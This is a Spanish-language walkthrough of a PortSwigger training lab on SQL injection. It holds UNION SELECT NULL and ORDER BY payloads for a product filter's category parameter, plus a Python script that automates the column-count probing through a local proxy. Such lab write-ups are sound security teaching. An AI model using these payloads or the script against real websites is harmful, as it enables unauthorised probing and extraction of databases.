 ```yaml
---
title: "03 SQLi UNION attack determining the number of columns returned by the query"
collection: publications
category: portswigger
permalink: publications/SQLi/03_SQL injection UNION attack, determining the number of columns returned by the query
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría del filtro de productos. Esta vulnerabilidad puede explotarse mediante un ataque UNION para recuperar datos de otras tablas. Para resolver el laboratorio, realizamos un ataque de inyección SQL que determina el número de columnas que devuelve la consulta. Este es el primer paso de un ataque UNION de inyección SQL. Utilizaremos esta técnica en laboratorios posteriores para construir el ataque completo.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi UNION attack determining the number of columns returned by the query'
---
```


![logo]({{site.url}}/images/SQLi/sqli-3/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-3/descripcion.png)

## Objetivo del laboratorio

Determinar el número de columnas devueltas por la consulta realizando un ataque de inyección SQL UNION que devuelva una fila adicional que contenga valores nulos.

## Query

![categorias]({{site.url}}/images/SQLi/sqli-3/categorias y url.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a

```sql
SELECT * FROM tabla WHERE category = '<CATEGORY>'
```

Comprobamos que es vulnerable a SQLi insertando en la url el parametro:

```sql
' --
```

![Comprobar]({{site.url}}/images/SQLi/sqli-3/comprobar.png)

## Determinar el numero de columnas retornadas por la consulta

1) El payload se veria asi con NULL:

```javascript
/filter?category=Gifts' UNION SELECT NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL, NULL--
```

Vamos insertando `NULL` con `UNION SELECT` para ver cuantas columnas estan disponibles etc...

2) Probamos con `ORDER BY` para ver que cantidad son vulnerables, vamos incrementando el numero

```javascript
/filter?category=Gifts' ORDER BY 1--
/filter?category=Gifts' ORDER BY 2--
/filter?category=Gifts' ORDER BY 3--
```

## Forma determinar con NULL

```javascript
filter?category=Gifts' UNION SELECT NULL,NULL,NULL--
```
La web para a realizar el `URL ENCONDE` y quedaria algo asi:

![url enconde]({{site.url}}/images/SQLi/sqli-3/NULL.png)

En BurpSuite se veria de la siguiente forma

![BurpSuite]({{site.url}}/images/SQLi/sqli-3/burp.png)

## Forma determinar con ORDER BY

```javascript
filter?category=Gifts' ORDER BY 3--
```
Sin Url Encode:

![url]({{site.url}}/images/SQLi/sqli-3/url.png)

El navegador hace `URL ENCONDE` y quedaria algo asi:

![url_enconde]({{site.url}}/images/SQLi/sqli-3/url encode.png)

Aprobado
![Aprobado]({{site.url}}/images/SQLi/sqli-3/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_column_number(url):
    path = "/filter?category=Gifts"
    for i in range(1,50):
        sql_payload = "'+order+by+%s--" %i
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if "Internal Server Error" in res:
            return i -1
        i = i + 1
    return False


if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print('[-] Usage: %s <url>' % sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)

    print("[+] Figuring out number of columns...") 
    num_col = exploit_sqli_column_number(url)
    if num_col:
        print ("[+] The number of columns is " + str(num_col) + ".")
    else:
        print("[-] The SQLi attack was not successful.")
```